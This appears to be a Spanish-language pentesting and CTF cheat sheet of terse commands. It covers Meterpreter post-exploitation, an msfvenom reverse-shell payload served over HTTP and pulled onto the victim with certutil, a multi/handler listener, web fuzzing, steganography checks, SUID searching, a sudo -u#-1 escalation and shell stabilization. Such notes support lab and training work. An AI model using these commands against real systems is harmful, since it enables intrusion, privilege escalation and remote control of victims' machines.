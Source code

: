 METASPLOIT
getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)

ENUM WEB
wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
gobuster -u URL -w WORDLIS -t (velocidad) --no-error -k (para ignorar certs)


IMAGENES y ARCHIVOS
exiftool archivo  > ver datos del archivo
steghide extract --sf archivo.jpg > podemos ver si tiene archivo con info
strings nos trae los datos del archivo
file para ver de que tipo es un archivo
find / -perm -u=s -type f 2>/dev/null


sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt


HASH
base64 -d archivo.txt > decode base64 linux

psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole


Estabilizar Terminal:
	python3 -c 'import pty;pty.spawn("/bin/bash")'



